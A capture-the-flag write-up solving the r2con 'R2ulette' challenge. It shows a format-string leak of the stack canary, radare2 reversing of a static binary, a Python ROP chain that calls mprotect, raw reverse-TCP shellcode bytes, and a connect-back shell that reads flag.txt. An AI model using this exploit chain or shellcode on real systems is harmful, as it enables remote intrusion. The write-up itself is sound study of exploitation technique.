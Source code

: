 # Solution for the challenge R2ulette [400pts]

## Prelude

The "r2ulette" challenges was in a serie of three challenge with differents levels of difficulty. This write-up aims to present our solution for the hardest one.

For this challenge we are given two elements:
- The port and the IP address of a remote server : 46.101.225.237 7878
- The binary executed by the server : r2ulette_f00c874650eea57c6a43550a2483b24e

## Playing with the server
To understand what's the purpose of the challenge, let's start by playing around with the server:
```
$ nc 46.101.225.237 7878
                   .------.
.------.           |A .   |
|A_  _ |    .------; / \  |
|( \/ )|-----. _   |(_,_) |
| \  / | /\  |( )  |  I  A|
|  \/ A|/  \ |_x_) |------'
`-----+'\  / | Y  A|
      |  \/ A|-----'
      `------'
Interested in playing R2ulette? Win playing our Free Roulette game today and go build your own theme park, with blackjack and hookers!

Pick a number (0 - 100), and good luck!: 1
Your got:  1
 Bad Luck, you are not the winner
Pick a number (0 - 100), and good luck!: %llx
Your got:  7ffe8b5b9230
 Bad Luck, you are not the winner
```
As show in the capture, we quickly understand that the executable is affected by a format string vulnerability.

## Analysis of the binary
In this challenge we are given a statically compiled 64-bits ELF executable:
```
$ file r2ulette_f00c874650eea57c6a43550a2483b24e
r2ulette_f00c874650eea57c6a43550a2483b24e: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=a8dbdd2e7a7af81e569be8a8f174432701f8875b, stripped

$ rabin2 -I r2ulette_f00c874650eea57c6a43550a2483b24e
Warning: Cannot initialize dynamic strings
arch     x86
baddr    0x400000
binsz    847033
bintype  elf
bits     64
canary   false
class    ELF64
crypto   false
endian   little
havecode true
lang     c
linenum  false
lsyms    false
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   false
rpath    NONE
static   true
stripped true
subsys   linux
va       true
```

Even if the `rabin2` command shows that the binary was not compiled with the stack canary, it is pretty simple to see from the prelude of the function that stack canary is present (from `fs:[0x28]`).
```
[0x00400ccc]> pd 10 @ main
            ;-- main:
            0x00400ccc      55             push rbp
            0x00400ccd      4889e5         mov rbp, rsp
            0x00400cd0      4883ec50       sub rsp, 0x50
            0x00400cd4      897dbc         mov dword [rbp - 0x44], edi
            0x00400cd7      488975b0       mov qword [rbp - 0x50], rsi
            0x00400cdb      64488b042528.  mov rax, qword fs:[0x28]      --> position of the canary (Linux x64)
            0x00400ce4      488945f8       mov qword [rbp - 8], rax
            0x00400ce8      31c0           xor eax, eax
```

## Reverse of the binary
After having played with the binary, we can already suppose that the executable does the following things:
- Start a listening socket and wait for the client connection
- Fork when a connection is receive in order to handle the client connection
- Execute the game function

As we already know what to look for, we start by looking for the string used by the executable, and retrieve the function associated:
```
[0x00400ccc]> iz~Pick
010 0x000a2c20 0x004a2c20  41  42 (.rodata) ascii Pick a number (0 - 100), and good luck!:
[0x00400ccc]> axF 0x004a2c20
Finding references of flags matching '0x004a2c20'...
[0x006cfdb0-0x006cfe48] (nofunc) 0x400b5f [DATA] mov edi, str.Pick_a_number__0___100___and_good_luck_:
Macro 'findstref' removed.
[0x00400890]> s 0x400b5f
[0x00400b5f]> aaa
[0x00400b5f]> sf.
[0x00400ac3]> pd 3
/ (fcn) sub.Interested_in_playing_R2ulette__Win_playing_our_Free_Roulette_game_today_and_go_build_your_own_theme_park__with_blackjack_and_hookers_ac3 521
|   sub.Interested_in_playing_R2ulette__Win_playing_our_Free_Roulette_game_today_and_go_build_your_own_theme_park__with_blackjack_and_hookers_ac3 ();
|           ; var unsigned int local_11ch @ rbp-0x11c
|           ; var unsigned int local_118h @ rbp-0x118
|           ; var int local_110h @ rbp-0x110
|           ; var int local_8h @ rbp-0x8
|           ; CALL XREF from main (0x400e26)
|           0x00400ac3      55             push rbp
|           0x00400ac4      4889e5         mov rbp, rsp
|           0x00400ac7      4881ec200100.  sub rsp, 0x120
```

The analysis of the function shows that the size (0x264) of the buffer used to store the client input is smaller than the length parameter (0x400) passed to the `recv` function:
```
|           0x00400b78      488b15e1eb2c.  mov rdx, qword [0x006cf760] ; fd ; [0x6cf760:8]=0
|           0x00400b7f      488d85f0feff.  lea rax, [input_buffer]
|           0x00400b86      be00040000     mov esi, 0x400              ; 1024
|           0x00400b8b      4889c7         mov rdi, rax
|           0x00400b8e      e83d020100     call recv
```

## Exploitation
As the binary is compiled with NX protection, we have to build a ROP chain, we chose to do :
- Stage 1 (format string exploitation):
  - Retrieve the stack cookie
  - Retrieve the address of the input buffer
- Stage 2 (buffer overflow):
  - Execute `mprotect` to allow the execution of our shellcode
  - Start the execution of the shellcode (reverse tcp)

In order to do that, we had to find the address of the libc `mprotect` function (syscall 0xa on Linux x64) in the binary; we used the following `r2` command:
```
[0x00400890]> pd 2 @@/c mov eax, 0xa
            0x00441e50      b80a000000     mov eax, 0xa   -> mprotect start address
            0x00441e55      0f05           syscall
0x00441e50   # 5: mov eax, 0xa
        :   0x00450585      b80a000000     mov eax, 0xa
        `=< 0x0045058a      e991fcffff     jmp 0x450220
0x00450585   # 5: mov eax, 0xa
            0x0045b846      b80a000000     mov eax, 0xa
            0x0045b84b      48c745800000.  mov qword [rbp - 0x80], 0
```

Then we looked for our needed gadgets:
```
[0x00441e50]> /R pop rdi
  0x00401946                 5f  pop rdi
  0x00401947                 c3  ret
[0x00441e50]> /R pop rsi
  0x00401a67                 5e  pop rsi
  0x00401a68                 c3  ret
[0x00441e50]> /R pop rdx
  0x00444836                 5a  pop rdx
  0x00444837                 c3  ret
```

Since the function runs in an infinite loop, we have to exit in order to trigger the buffer overflow, to do this we can send the command `q` to the server:
```
[0x00400bc1]> pd 10
|           0x00400bc1      488b85e8feff.  mov rax, qword [buffer_end_ptr]
|           0x00400bc8      c60000         mov byte [rax], 0
|           0x00400bcb      0fb685f0feff.  movzx eax, byte [input_buffer]
|           0x00400bd2      3c71           cmp al, 0x71                ; 'q' ; 113
|       ,=< 0x00400bd4      0f84b7000000   je 0x400c91
```

The final payload is the following:
```python
payload_exploit+= p64(0x401946)                                 # POP RDI
payload_exploit+= p64(STRING_BEGINNING & 0xfffffffffffff000)    # Arg0 = page_start(@shellcode)
payload_exploit+= p64(0x401a67)                                 # POP RSI
payload_exploit+= p64(0x1000)                                   # Arg1 = 0x1000 (std page size)
payload_exploit+= p64(0x444836)                                 # POP RDX
payload_exploit+= p64(0x7)                                      # Arg2 = PROT_READ | PROT_WRITE | PROT_EXEC
payload_exploit+= p64(0x441E50)                                 # @gadget_syscall_mprotect
payload_exploit+= p64(STRING_BEGINNING + 20)                    # Return to shellcode, with some security, just in case
payload_exploit+= p64(STRING_BEGINNING + 20)                    # Double the return address, just in case
```

Once we start our script, we receive a connection and get the flag:
```
root @ kwjms ~ # python solve.py
[+] Opening connection to 46.101.225.237 on port 7878: Done
[*] Switching to interactive mode
Your got:  \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90H1�H1\xffH1�H1�M1�j_j^j\x06Zj)X\x0f\x05I\x89�H1�M1�AR�$f�D$\x11\�D$\x04>�l\xa0H\x89�jZAP_j*X\x0f\x05H1�j^H\xff�j!X\x0f\x05u�H1�WW^ZH\xbf//bin/shH�WT_j;X\x0f\x05aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 Bad Luck, you are not the winner
Pick a number (0 - 100), and good luck!: $ q

$
```

```
connect to [xxxxxx] from (UNKNOWN) [46.101.225.237] 60338
ls -la
total 844
drwxr-xr-x 1 ctf  ctf    4096 Sep  7 10:38 .
drwxr-xr-x 1 root root   4096 Sep  7 10:38 ..
-r-------- 1 ctf  ctf      39 Sep  6 18:02 flag.txt
---x------ 1 ctf  ctf  849024 Sep  7 10:38 r2ulette
cat flag.txt
r2con{_R0p_&_R0ll!R0p1ng_3v3r1thing_!}
```

__First blood baby!__
